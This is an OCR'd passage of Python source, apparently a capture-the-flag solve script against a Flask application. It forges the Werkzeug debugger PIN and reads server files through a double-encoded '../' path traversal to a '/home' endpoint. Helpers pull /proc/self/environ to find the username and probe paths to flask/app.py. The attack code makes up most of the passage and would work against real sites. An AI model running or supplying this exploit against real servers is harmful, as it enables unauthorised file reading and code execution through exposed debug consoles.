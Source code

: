 ```python
    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                            for x in range(0, len(num), group_size))
                break
        else:
            rv = num

    return rv


def get_file(file, url=URL):
    class Res(Response):
        is_found: bool
        ptext: str
    res: Res = requests.post(url+"/home", data={
        "filename": q_parse(q_parse("../../../../../../../../../../../../.."+file)),
    })
    if "Try Harder....." in res.text:
        res.is_found = False
    else:
        res.is_found = True
        res.ptext = re.findall(
            r'(?<=b\').*?(?=\' \n.*?</div>)', res.text, re.DOTALL
        )[0]
        res.ptext = eval(f"'{res.ptext}'").strip()
    return res


def q_parse(x: str):
    file = x.encode()
    file = binascii.hexlify(file).decode()
    result = ""
    for i in range(0, len(file), 2):
        result += f"%{file[i]+file[i+1]}"
    return result


def get_username():
    text = get_file("/proc/self/environ").text
    username = re.search(r"(?<=HOME=/home/).*?(?=\\x00)",
                         text, re.DOTALL).group(0)
    return username
 
def get_flask_dir():
    templ_flask = "/usr/local/lib/python3.%s/%s/flask/app.py"
    for version in [i for i in range(7, 10)]:
        for location in ['site-packages', 'dist-packages']:
            flask = templ_flask % (version, location)
            file = get_file(flask)
            if file.is_found:
                return flask
    print("something wrong")
    exit(1)


```